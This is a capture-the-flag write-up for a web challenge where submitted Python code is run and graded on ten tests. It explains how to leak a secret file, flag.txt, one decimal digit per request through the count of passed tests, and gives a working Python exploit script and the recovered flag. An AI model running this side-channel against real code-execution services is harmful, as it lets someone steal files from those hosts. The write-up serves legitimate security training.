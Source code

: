 # yeetcode

## Challenge

a webapp with a text editor where we can write python code

the code is executed by the remote server, which checks the function `f(a,b)`

if the function returns the sum of `a+b`, the test is successful

the remote server tests 10 cases and returns the number of successful tests, or reports an error in code

the flag is accessible by the python code, no external connections are allowed

## Solution

the server leaks a number between 0-11 on each run

we can convert the flag to a base10 or base11 value and leak individual digits

base11 is more efficient, but base10 is more common and easier to work with

in the case of base11, an EOF signal can be sent using the error reporting

in the case of base10, an EOF signal can be sent using the value 10, while 0-9 are reserved for digits

to use base10, we convert the flag to a hexadecimal string, then convert the value to a decimal number

we send the desired digit by passing a specific number of tests

once the stop signal is received, we can convert back to hexadecimal and then to ascii

## Exploit

```py
#!/usr/bin/python3

from requests import post
from binascii import unhexlify

url = 'https://yeetcode.be.ax/yeetyeet'

payload = """
from binascii import hexlify

f = open("flag.txt", "r")
flag = f.read()

d = int(hexlify(flag.encode()), 16) // (10 ** e)

if d == 0:
    d = 10
else:
    d %= 10

c = 0

def f(a,b):
    global c
    if(c < d):
        c+=1
        return a+b
    else:
        return 0
"""

e = 0
dec = 0

while True:
    x = post(url, data = "e={}\n".format(e) + payload)
    res = x.json()['p']
    if res != 10:
        dec += res * (10 ** e)
        e += 1
        if e % 10 == 0:
            print("Progress: {}".format(e))
    else:
        break

print(unhexlify(hex(dec)[2:]).decode())
```

## Flag

`corctf{1m4g1n3_cp_g0lf_6a318dfe}`

